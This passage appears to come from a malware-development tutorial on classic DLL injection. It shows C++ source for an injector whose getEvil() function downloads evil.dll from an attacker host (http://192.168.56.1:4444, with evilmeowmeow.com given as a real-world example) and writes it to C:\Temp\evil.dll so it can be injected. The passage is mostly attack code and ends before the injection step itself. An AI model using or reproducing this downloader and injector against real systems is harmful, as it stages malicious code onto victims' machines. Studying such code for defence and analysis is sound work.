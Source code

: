 ```cpp
    buffer = new char[dwFileSize + 1];
    ZeroMemory(buffer, sizeof(buffer));
    InternetReadFile(hHttpFile, (LPVOID)buffer, dwFileSize, &dwBytesRead);
    WriteFile(hFile, &buffer[0], dwBytesRead, &dwBytesWritten, NULL);
    delete[] buffer;
    buffer = NULL;
  } while (dwBytesRead);

  CloseHandle(hFile);
  InternetCloseHandle(hHttpFile);
  InternetCloseHandle(hSession);
  return buffer;
}
```

This function download `evil.dll` from attacker's machine (`192.168.56.1:4444`, but in the real-life scenario it can be looks like `evilmeowmeow.com:80`) and save to file `C:\\Temp\\evil.dll`.   

Then, we run this code in the `main()` function. Full source code of our injector is:   

```cpp
/*
evil_inj.cpp
classic DLL injection example
author: @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>
#include <wininet.h>
#pragma comment (lib, "wininet.lib")

char evilDLL[] = "C:\\Temp\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

// download evil.dll from url
char* getEvil() {
  HINTERNET hSession = InternetOpen((LPCSTR)"Mozilla/5.0", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
  HINTERNET hHttpFile = InternetOpenUrl(hSession, (LPCSTR)"http://192.168.56.1:4444/evil.dll", 0, 0, 0, 0);
  DWORD dwFileSize = 1024;
  char* buffer = new char[dwFileSize + 1];
  DWORD dwBytesRead;
  DWORD dwBytesWritten;
  HANDLE hFile = CreateFile("C:\\Temp\\evil.dll", GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  do {
    buffer = new char[dwFileSize + 1];
    ZeroMemory(buffer, sizeof(buffer));
    InternetReadFile(hHttpFile, (LPVOID)buffer, dwFileSize, &dwBytesRead);
    WriteFile(hFile, &buffer[0], dwBytesRead, &dwBytesWritten, NULL);
    delete[] buffer;
    buffer = NULL;
  } while (dwBytesRead);

  CloseHandle(hFile);
  InternetCloseHandle(hHttpFile);
  InternetCloseHandle(hSession);
  return buffer;
}

```